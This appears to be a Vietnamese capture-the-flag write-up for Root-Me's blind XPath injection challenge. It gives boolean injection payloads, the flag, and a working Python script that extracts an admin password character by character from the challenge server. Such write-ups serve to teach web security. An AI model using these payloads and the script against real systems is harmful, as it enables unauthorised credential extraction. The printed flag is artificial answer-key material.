 # [XPath injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)

## Solutions

Xuất hiện lỗi XPath ở GET request parameters, nếu gửi request `GET /web-serveur/ch24/?action=user&userid='` sẽ có lỗi:

- `SimpleXMLElement::xpath(): Invalid expression in <b>/challenge/web-serveur/ch24/index.php`
- `XPath error : //user[userid=\']`

Gửi request `GET /web-serveur/ch24/?action=user&userid=2 and conditions`, trong đó:

- `userid=2` là của John, admin
- Có thể thay `conditions` bằng tên element để xem có tồn tại element đó hay không, nếu không có thì sẽ báo lỗi
- Có thể thay `conditions` thành một lệnh so sánh để kiểm tra xem nó là True hay False, nếu False thì sẽ báo lỗi

Attack, thay conditions bằng:

- `password` => có tồn tại element `password` là child của `user`
- `string-length(password)=13` => password của John dài 13 ký tự
- `starts-with(password, 'a')`: Kiểm tra xem ký tự đầu của password có phải là `a` hay không, tuy nhiên các ký tự `'` và `"` đã bị escaped

Không thể dùng ký tự từ phía ngoài truyền vào => Sử dụng những ký tự có sẵn ở phía server, sử dụng xpath để lấy các ký tự ở các node `username`, `email`.

Đây là một đoạn code lấy trên mạng [link](https://github.com/NhatNam-Kyoto/Rootme-Solution/blob/master/Xpath-blind.py)

```python
import requests
import re


url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2"

payload1 = url + "and string-length(password)=%d"

for i in range(10,30):
 r = requests.get(payload1 %i)
 if re.search('John', r.text) is not None:
  p_length = i
  break

print ("password length: " + str(p_length))

charset = {
 "a":"substring(//user[3]/email,5,1)",
 "b":"substring(//user[1]/email,9,1)",
 "c":"substring(//user[3]/email,3,1)",
 "d":"substring(//user[2]/email,6,1)",
 "e":"substring(//user[1]/email,3,1)",
 "g":"substring(//user[2]/email,12,1)",
 "h":"substring(//user[2]/email,3,1)",
 "i":"substring(//user[3]/email,2,1)",
 "J":"substring(//user[2]/email,1,1)",
 "l":"substring(//user[5]/email,2,1)",
 "m":"substring(//user[1]/email,14,1)",
 "n":"substring(//user[2]/email,4,1)",
 "o":"substring(//user[2]/email,2,1)",
 "r":"substring(//user[3]/email,1,1)",
 "s":"substring(//user[1]/email,1,1)",
 "t":"substring(//user[1]/email,2,1)",
 "v":"substring(//user[1]/email,4,1)",
 "y":"substring(//user[4]/email,5,1)",
 "z":"substring(//user[3]/email,11,1)",
 "0":"string(0)",
 "1":"string(1)",
 "2":"string(2)",
 "3":"string(3)",
 "4":"string(4)",
 "5":"string(5)",
 "6":"string(6)",
 "7":"string(7)",
 "8":"string(8)",
 "9":"string(9)",
 "@":"substring(//user[3]/email,4,1)",
 ".":"substring(//user[3]/email,8,1)",
 "u":"substring(//user[4]/account,2,1)",
 "j":"substring(//user[1]/email,7,1)",
 "E":"substring(//user[5]/email,1,1)",
 "S":"substring(//user[1]/username,1,1)"
}
tmp="abcdeghiJlmnorstvyz0123456789@.ujES"
payload2 = url + " and substring(password,%d,1)=%s"
password=""

for i in range(1,p_length+1):
 for index in range(len(charset)):
  r = requests.get(payload2 %(i,charset[tmp[index]]))
  #sprint(payload2 %(i,charset[tmp[index]]))
  if re.search('John', r.text) is not None:
   password+=tmp[index]
   print("password founded: " + password)
   break
print(password)

#length=13
#pass is : **iJ*a*5*1.oS
```

Họ lấy các kí tự có sẵn (bị thiếu: f, x, ...) tuy nhiên Flag bài này chỉ gồm các ký tự đó.

Flag: `ueiJ4a65@1.oS`

Trong trường hợp flag gồm các ký tự bị thiếu kia thì ta cần một nơi có thể lấy được tất cả các ký tự. Để ý thấy có một mục gửi message cho user.

- Thay conditions bằng `count(child::*)=5` => child elements của user là 5:
  - userid
  - username
  - password
  - email
  - element cuối cùng có thể là message mình gửi cho user

`string-length(name(./*[4]))=7` => tên có độ dài 7. Áp dụng tương tự cách tìm Flag ở trên đến tìm ra cấu trúc xml của element cuối (name, child node, ...), có thể sẽ tìm được nơi chứa message người dùng upload lên.

## References

- <https://github.com/NhatNam-Kyoto/Rootme-Solution/blob/master/Xpath-blind.py>
